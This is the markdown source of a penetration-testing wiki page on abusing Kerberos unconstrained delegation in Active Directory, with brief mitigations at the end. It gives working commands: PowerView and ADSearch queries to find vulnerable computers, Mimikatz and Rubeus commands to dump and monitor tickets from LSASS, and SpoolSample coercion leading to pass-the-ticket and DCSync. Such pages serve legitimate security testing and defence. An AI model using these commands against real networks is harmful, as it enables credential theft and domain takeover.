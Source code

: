 # Unconstrained Delegation

{{#include ../../banners/hacktricks-training.md}}

## Unconstrained delegation

This a feature that a Domain Administrator can set to any **Computer** inside the domain. Then, anytime a **user logins** onto the Computer, a **copy of the TGT** of that user is going to be **sent inside the TGS** provided by the DC **and saved in memory in LSASS**. So, if you have Administrator privileges on the machine, you will be able to **dump the tickets and impersonate the users** on any machine.

So if a domain admin logins inside a Computer with "Unconstrained Delegation" feature activated, and you have local admin privileges inside that machine, you will be able to dump the ticket and impersonate the Domain Admin anywhere (domain privesc).

You can **find Computer objects with this attribute** checking if the [userAccountControl](<https://msdn.microsoft.com/en-us/library/ms680832(v=vs.85).aspx>) attribute contains [ADS_UF_TRUSTED_FOR_DELEGATION](<https://msdn.microsoft.com/en-us/library/aa772300(v=vs.85).aspx>). You can do this with an LDAP filter of ‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’, which is what powerview does:

<pre class="language-bash"><code class="lang-bash"># List unconstrained computers
## Powerview
Get-NetComputer -Unconstrained #DCs always appear but aren't useful for privesc
<strong>## ADSearch
</strong>ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
<strong># Export tickets with Mimikatz
</strong>privilege::debug
sekurlsa::tickets /export #Recommended way
kerberos::list /export #Another way

# Monitor logins and export new tickets
.\Rubeus.exe monitor /targetuser:<username> /interval:10 #Check every 10s for new TGTs</code></pre>

Load the ticket of Administrator (or victim user) in memory with **Mimikatz** or **Rubeus for a** [**Pass the Ticket**](pass-the-ticket.md)**.**\
More info: [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**More information about Unconstrained delegation in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **Force Authentication**

If an attacker is able to **compromise a computer allowed for "Unconstrained Delegation"**, he could **trick** a **Print server** to **automatically login** against it **saving a TGT** in the memory of the server.\
Then, the attacker could perform a **Pass the Ticket attack to impersonate** the user Print server computer account.

To make a print server login against any machine you can use [**SpoolSample**](https://github.com/leechristensen/SpoolSample):

```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```

If the TGT if from a domain controller, you could perform a[ **DCSync attack**](acl-persistence-abuse/index.html#dcsync) and obtain all the hashes from the DC.\
[**More info about this attack in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

**Here are other ways to try to force an authentication:**

{{#ref}}
printers-spooler-service-abuse.md
{{#endref}}

### Mitigation

- Limit DA/Admin logins to specific services
- Set "Account is sensitive and cannot be delegated" for privileged accounts.

{{#include ../../banners/hacktricks-training.md}}



